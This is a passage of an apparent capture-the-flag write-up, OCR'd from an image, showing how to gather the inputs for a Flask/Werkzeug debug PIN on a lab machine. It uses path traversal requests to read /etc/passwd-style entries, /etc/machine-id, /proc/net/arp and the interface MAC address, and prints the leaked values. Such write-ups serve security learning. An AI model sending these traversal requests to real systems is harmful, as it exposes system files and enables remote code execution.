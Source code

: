 ```
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
```

The user name that we need is probably `sid`

To recenter on what we need :
```
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

```
username = sid
modname = flask.app
getattr(app, '__name__', getattr(app.__class__, '__name__')) = Flask
```

To get the absolute path, we can trigger an error with 
`http://$IP:5000/api/v1/resources/books?show=whatever`

From the error, we can validate that the user is `sid` :
```
File "/home/sid/api.py"
```

And the `app.py` seems to be there :
```
/usr/lib/python3/dist-packages/flask/app.py
```

Then we need the machine id. We can find it in `/etc/machine-id`
`http://$IP:5000/api/v1/resources/books?show=../../../etc/machine-id`
```
d86a656616e9492d93f4ab7905f44292
```

Then we need the interface MAC address.
We can leak the interfaces bu reading `/proc/net/ark`
`:5000/api/v1/resources/books?show=../../../proc/net/arp`

```
IP address       HW type     Flags       HW address            Mask     Device
10.10.0.1        0x1         0x2         02:c8:85:b5:5a:aa     *        eth0
```

Then we get the mac from `/sys/class/net/eth0/address`
`:5000/api/v1/resources/books?show=../../../sys/class/net/eth0/address`
```
02:6b:3c:e6:3c:19
```
